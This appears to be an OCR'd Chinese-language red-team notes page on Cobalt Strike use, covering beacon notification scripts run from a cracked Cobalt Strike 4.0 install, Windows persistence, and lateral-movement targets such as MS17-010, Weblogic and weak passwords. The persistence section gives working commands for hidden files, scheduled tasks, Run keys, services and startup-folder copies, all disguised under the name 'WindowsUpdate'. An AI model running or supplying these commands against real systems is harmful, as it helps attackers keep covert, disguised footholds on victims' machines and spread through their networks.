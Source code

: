 - 注册表
- dll劫持

- https://kevien.github.io/2020/04/05/cobaltstrike-dns-beacon/

- 上线提醒
  - 微信提醒：http_ftqq.cna
  - ./agscript ip 50050 teste passwd0e0w /root/cobaltstrike4.0-cracked/http_ftqq.cna
  - 邮箱提醒：

## 0x04 权限维持

获取到一个Session之后，可能会由于网络不稳定，机器重启等操作丢失Session。我们获取一个Session之后，首先要思考的就是如何使Session永久维持。除了思考永久停留的问题之外，还需要及时的将Session备份到其他的CS服务器上面。本文列举了一些Session永久维持的方法，抛砖引玉。

- 永久停留

  本部分介绍了一些如何进行永久停留的方法，参考：https://xz.aliyun.com/t/5881

  - 计划任务
    - attrib C:\test.exe +s +h //隐藏文件
    - schtasks /create /tn WindowsUpdate /tr “C:\test.txt” /sc minute /mo 1
    - schtasks /delete /tn WindowsUpdate //删除计划任务
  - 注册表
    - reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /t REG_SZ /d "C:\test.exe" /f
  - shift后门
  - Windows服务
    - sc create "WindowsUpdate" binpath= "cmd /c start C:\test.exe";
    - sc config "WindowsUpdate" start= auto
    - net start WindowsUpdate
  - 自启目录
    - copy "C:\test.exe" "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.exe" /y
    - attrib "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.exe" +s +h

- 备份Session

  获取shell之后可以将shell转发到其他的CS上，或者是转发到MSF上面，方便后续的测试。

## 0x05 内网渗透

内网渗透中，使用一些神洞进行。这些渗透往往是内网之中的大杀器。其中包括下面的这些神洞。除了这些神洞之外，在内网中总是会存在大量的弱口令，内网中弱口令扫描也尤为重要。同样，在内网中可能会存在大量服务器使用相同复杂密码的情况，因此密码嗅探也是比较有效的操作。

除此之外，在内网中横向渗透时，优先考虑使用msf。

- 主机神洞
  - MS17-010

- 中间件神洞
  - Weblogic

- 密码破解
  - ssh弱口令
  - rdp弱口令
  - 数据库弱口令
